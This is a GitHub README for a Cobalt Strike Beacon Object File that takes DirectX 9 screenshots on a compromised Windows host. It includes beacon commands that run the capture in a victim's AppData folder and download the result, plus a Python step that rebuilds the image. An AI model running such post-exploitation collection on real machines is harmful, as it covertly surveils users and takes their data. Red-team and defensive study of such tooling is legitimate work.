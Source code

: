 # DirectX9-Screenshot-BOF
![memez](/img/8gku6o.jpg)
## Overview

Capture Screenshots with DirectX 9   
TBH I haven't tested this too much just seemed like a cool idea

## Notes

- Export screenshots to **%TEMP%** or the **current working directory** as `.tmp` files
- Output format: `<width>oo<height>.tmp`
- Reconstruct `.tmp` files into PNG format locally
- Libraries Used - MSVCRT, D3D9

### BOF Execution

Ensure you are in the directory you would like the screenshot exported as. 
```
beacon> cd C:\Users\Victim\AppData\
beacon> screenshot-dx
beacon> download <filename>
```

### Example

![Cobalt Strike Example](/img/example.png)

## Image Reconstruction

To reconstruct the image with this script, follow these steps:

1. Install the required packages:
    ```bash
    pip3 install Pillow
    ```

2. Run the script with the desired log file path and output file path:
    ```bash
    python3 assemble.py <logfile> output.png
    ```

### Contributers
Big thanks to ma boy Kyle started this
@kyle41111
